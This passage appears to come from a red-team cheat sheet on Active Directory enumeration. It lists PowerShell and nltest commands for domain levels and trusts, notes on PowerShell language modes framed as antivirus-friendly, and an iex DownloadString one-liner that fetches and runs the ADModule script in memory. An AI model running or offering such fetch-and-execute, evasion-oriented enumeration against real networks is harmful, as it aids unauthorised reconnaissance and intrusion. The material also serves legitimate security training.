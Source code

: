 7. Enumerate forest and domain functional levels:
```powershell
(Get-ADForest).ForestMode
```

```powershell
 (Get-ADDomain).DomainMode
```

8. View domain trust relationships:
```cmd
nltest /domain_trusts
```



**Domain Enumeration**

### Useful References:

- [Microsoft PowerShell Active Directory Module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)
- [SamratAshok ADModule GitHub](https://github.com/samratashok/ADModule)
    - [ADModule Script Import](https://github.com/samratashok/ADModule/blob/master/Import-ActiveDirectory.ps1)
    - [Microsoft.ActiveDirectory.Management.dll](https://github.com/samratashok/ADModule/raw/refs/heads/master/Microsoft.ActiveDirectory.Management.dll)

### PowerShell Language Modes (AV-Friendly Enumeration):

- **Language Modes Overview** ([Reference](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.4)):
    - `FullLanguage`: Full scripting capabilities.
    - `RestrictedLanguage`: No external function or script calls.
    - `ConstrainedLanguage`: Limited scripting for security (introduced in PowerShell 3.0).
    - `NoLanguage`: No scripting allowed.




To check the current session's language mode:
```powershell
$executioncontext.SessionState.LanguageMode
```

### Import AD Module for Enumeration:

1. Download and import the SamratAshok AD module:
```powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```
2. Alternatively, manually load the ADModule:
```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll 
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

### **BloodHound** (Active Directory Enumeration)
